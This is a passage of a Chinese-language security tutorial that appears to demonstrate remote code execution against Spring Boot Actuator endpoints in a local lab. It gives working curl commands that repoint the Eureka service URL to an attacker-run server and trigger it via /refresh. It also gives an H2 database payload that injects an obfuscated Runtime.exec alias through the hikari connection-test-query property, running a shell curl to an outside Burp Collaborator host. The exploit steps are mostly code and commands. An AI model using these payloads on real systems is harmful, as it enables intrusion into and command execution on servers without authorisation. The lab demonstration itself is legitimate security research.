   return Response(xml, mimetype='application/xml')

if \_\_name\_\_ == "\_\_main\_\_":
    app.run(host='0.0.0.0', port=8090)

**(2)设置 eureka.client.serviceUrl.defaultZone 属性**

*有的话这里要先记录下本来的属性值

```
curl -H 'Content-Type: application/x-www-form-urlencoded' -X POST --data "eureka.client.serviceUrl.defaultZone=http://127.0.0.1:8090/xxxxxsuibiantianxx" http://localhost:9093/env
```

成功设置,如下图所示:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210620111901-4237859e-d176-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210620111901-4237859e-d176-1.png)

**(3) 触发**

```
curl -X POST http://localhost:9093/refresh
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210620111914-49db93d0-d176-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210620111914-49db93d0-d176-1.png)

成功执行请求，也执行了命令。

* * *

**(4)恢复 eureka.client.serviceUrl.defaultZone**

如果不恢复的话，那么就会一直执行，系统也会一直报错。

```
curl -H 'Content-Type: application/x-www-form-urlencoded' -X POST --data "eureka.client.serviceUrl.defaultZone="原先的值" http://localhost:9093/env
```

然后刷新，使用新配置

```
curl -X POST http://localhost:9093/refresh
```

* * *

#### **3.restart h2 database query RCE**

```
cd springboot-h2-database-rce
mvn spring-boot:run
```

> 影响版本:(未知) 我改了配置文件，直接用了最新版的来做演示
> 
> 目前最新版:1.4.200

**(1) 设置spring.datasource.hikari.connection-test-query**

```
cmd.json:
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/sh','-c','curl 0bcmbenbn8ydjn0zgztfb76hf8l29r.burpcollaborator.net');"}

curl -H "Content-Type:application/json" -X POST  -d @/tmp/cmd.json http://localhost:9096/actuator/env
```
